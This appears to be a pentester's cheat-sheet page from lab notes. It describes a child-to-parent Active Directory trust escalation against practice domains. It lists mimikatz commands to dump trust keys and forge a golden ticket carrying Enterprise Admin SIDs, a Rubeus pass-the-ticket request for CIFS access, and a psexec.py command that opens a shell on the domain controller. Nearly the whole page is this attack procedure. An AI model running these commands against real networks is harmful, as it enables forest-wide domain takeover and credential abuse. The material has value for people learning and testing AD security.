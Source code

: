 # Child-to-Parent CIFS

For long version refer this [article](https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72) Refer Trusted- Vulnlab for example To get Domain SID:

```
lsadump::trust /patch
```

Then

&#x20;

<figure><img src="../../../../.gitbook/assets/Child-to-Parent CIFS.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/Child-to-Parent CIFS-1.png" alt=""><figcaption></figcaption></figure>

Use the SID and rc4 hash:

```
Kerberos::golden 
/user: Administrator 
/domain: dollarcorp.moneycorp.local [child_domain]
/sid: DomainAdmin_SID [-512]
/sids: Enterprise_Admin_SID [519]
/rc4: Ticket HASH 
/service:krbtgt 
/target:moneycorp.local [root domain]
/ticket: location to save the ticket
```

Now use Rubeus to get TGS:

```
Rubeus.exe asktgs
/ticket: ticket Location
/service: service type [cifs/mcorpdc.moneycorp.local] 
/dc: domain controller [mcorp-dc.moneycorp.local] 
/ptt
```

Then to get shell:

```
psexec.py administrator@trusteddc.trusted.vl -k -no-pass
```
